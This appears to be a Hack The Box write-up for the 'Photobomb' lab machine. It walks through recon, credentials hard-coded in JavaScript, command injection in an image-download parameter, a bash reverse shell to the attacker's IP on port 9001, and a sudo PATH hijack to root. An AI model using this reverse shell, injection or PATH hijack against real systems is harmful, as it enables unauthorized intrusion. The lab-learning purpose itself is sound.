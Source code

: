 ```yaml
---
layout: post
title: "HTB: PHOTOBOMB (10.10.11.182)"
description: "Photobomb was an easy box from Hack The Box that starts out with having to find credentials within a JavaScript file, utilizing them to access an image manipulation panel, and then exploiting a command injection vulnerability in the panel to gain shell access. For privilege escalation, I will run a script as root, utilizing a find command that was not called with its full path."
tags: [hackthebox, htb, photobomb, js, command injection, RCE, path-injection, burp,]
image: "/assets/img/photobomb/photobomb_feature.png"
---
```

## RECON
### Nmap

As always we start off with the recon and enumeration process to get an overview of our attack surface and target's running service.

`nmap` finds two open TCP ports, SSH (22) and HTTP (80):.

```sh
# Nmap 7.92 scan initiated Fri Feb 10 12:27:30 2023 as: nmap -p- --min-rate 10000 -oA nmap/allports 10.10.11.182
Nmap scan report for 10.10.11.182
Host is up (0.59s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

# Nmap done at Fri Feb 10 12:27:43 2023 -- 1 IP address (1 host up) scanned in 12.61 seconds

# Nmap 7.92 scan initiated Fri Feb 10 12:28:24 2023 as: nmap -sC -sV -p 22,80 -oA nmap/photobomb 10.10.11.182
Nmap scan report for 10.10.11.182
Host is up (0.28s latency).

PORT   STATE SERVICE VERSION
  22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 e2:24:73:bb:fb:df:5c:b5:20:b6:68:76:74:8a:b5:8d (RSA)
|   256 04:e3:ac:6e:18:4e:1b:7e:ff:ac:4f:e3:9d:d2:1b:ae (ECDSA)
|_  256 20:e0:5d:8c:ba:71:f0:8c:3a:18:19:f2:40:11:d2:9e (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://photobomb.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Feb 10 12:28:51 2023 -- 1 IP address (1 host up) scanned in 26.37 seconds
```
Based on the [OpenSSH version](https://packages.ubuntu.com/search?keywords=openssh-server){:target="_blank"}, the host is likely running Ubuntu focal (20.04LTS). Port 80 shows a redirect to photobomb.htb.

### Website - TCP 80
#### Site
The site talks about quality image printing. It gives a clue about where to find our credentials.

![Default page](/assets/img/photobomb/defaultpage.png)

Checking on developers tools to see which files are loaded. I see an interesting file `photobomb.js`

![photobomb.js](/assets/img/photobomb/photobombjs.png)

Which gives us a `js` file with a url and credentials on it. `username`:`pH0t0` & `password`:`b0Mb!`

```js
function init() {
  // Jameson: pre-populate creds for tech support as they keep forgetting them and emailing me
  if (document.cookie.match(/^(.*;)?\s*isPhotoBombTechSupport\s*=\s*[^;]+(.*)?$/)) {
    document.getElementsByClassName('creds')[0].setAttribute('href','http://pH0t0:b0Mb!@photobomb.htb/printer');
  }
}
window.onload = init;
```
#### Tech Stack
The HTTP response headers don’t show much besides `NGINX`:

```http
HTTP/1.1 200 OK
Server: nginx/1.18.0 (Ubuntu)
Date: Sat, 11 Feb 2023 13:09:35 GMT
Content-Type: text/html;charset=utf-8
Connection: close
X-Xss-Protection: 1; mode=block
X-Content-Type-Options: nosniff
X-Frame-Options: SAMEORIGIN
Content-Length: 843
```
### Login page

Clicking on the `url` provided automatically logs us to the site.
`http://pH0t0:b0Mb!@photobomb.htb/printer`

![printer page](/assets/img/photobomb/printerpage.png)  

## Shell as Wizard
### Testing for RCE

The site allows for download of pictures using different filetypes and Sizes.

I will Intercept the download with `burp` and see what the request looks like and try some `command injection` in all parameters since am not sure which one is injectable. I will initiate a `ping` from the server to my box


![RCE Testing](/assets/img/photobomb/burptestingrce.png)

And I get a hit. The `filetype` is vulnerable to `command injection`

![RCE Testing](/assets/img/photobomb/testing_rce.png)

### Exploiting filetype To Gain RCE

I will use the `bash` script from [PentestMonkey](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet){:target="_blank"}.

```sh
bash -c 'bash -i >& /dev/tcp/10.10.16.15/9001 0>&1'
```

![Rev Shell](/assets/img/photobomb/revshellbash.png)

One thing to note, without the `bash -c` the rev shell fails

And we get a shell on the box.

```sh
┌─[george@parrot]─[~/HTB/boxes/photobomb]
└──╼ $nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.10.16.15] from (UNKNOWN) [10.10.11.182] 43228
bash: cannot set terminal process group (697): Inappropriate ioctl for device
bash: no job control in this shell
wizard@photobomb:~/photobomb$
```
I will upgrade my shell using `python3` and `stty`

```sh
wizard@photobomb:~/photobomb$ python3 -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import pty;pty.spawn("/bin/bash")'
wizard@photobomb:~/photobomb$ ^Z
[1]+  Stopped                 nc -lvnp 9001
┌─[✗]─[george@parrot]─[~/HTB/boxes/photobomb]
└──╼ $stty raw -echo;fg
nc -lvnp 9001

wizard@photobomb:~/photobomb$
```
## Shell as root
### Enumeration
#### Sudo Permissions

Before running out beloved `linpeas` lets see what our `sudo permissions` are

```sh
wizard@photobomb:~/photobomb$ sudo -l
Matching Defaults entries for wizard on photobomb:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User wizard may run the following commands on photobomb:
    (root) SETENV: NOPASSWD: /opt/cleanup.sh
```
And lady luck smiled down on us :). We have a `cleanup.sh` script which we can run with `sudo` privilages and no `password`.

```sh
wizard@photobomb:~/photobomb$ ls -l /opt/cleanup.sh
-r-xr-xr-x 1 root root 340 Sep 15 12:11 /opt/cleanup.sh

wizard@photobomb:~/photobomb$ cat /opt/cleanup.sh
#!/bin/bash
. /opt/.bashrc
cd /home/wizard/photobomb

# clean up log files
if [ -s log/photobomb.log ] && ! [ -L log/photobomb.log ]
then
  /bin/cat log/photobomb.log > log/photobomb.log.old
  /usr/bin/truncate -s0 log/photobomb.log
fi

# protect the priceless originals
find source_images -type f -name '*.jpg' -exec chown root:root {} \;
```
### Exploiting Path Hijack

The content of the script is pretty straight forward. Its taking the log file and move their content into `photobomb.log.old` and then use truncate to clear `photobomb.log` to 0 byte

Also the script is not using `absolute path` when calling `find` unlike the others. We can take advantage of that and `traverse` the path of that binary

I’ll run cleanup.sh as root but with the PATH variable including the current directory at the front of the path:

```sh
wizard@photobomb:~$ echo "/bin/bash" > /tmp/cd
echo "/bin/bash" > /tmp/cd
wizard@photobomb:~$ echo "/bin/bash" > /tmp/find
echo "/bin/bash" > /tmp/find
wizard@photobomb:~$ sudo PATH=/tmp:$PATH /opt/cleanup.sh
sudo PATH=/tmp:$PATH /opt/cleanup.sh
root@photobomb:/home/wizard/photobomb# id
id
uid=0(root) gid=0(root) groups=0(root)
```
And we can get the flag

```sh
root@photobomb:~# cat root.txt
6e1520841af265a0b4670439d183a254
```
********* And that was fun!!. Thank you for taking time to read my blog ************
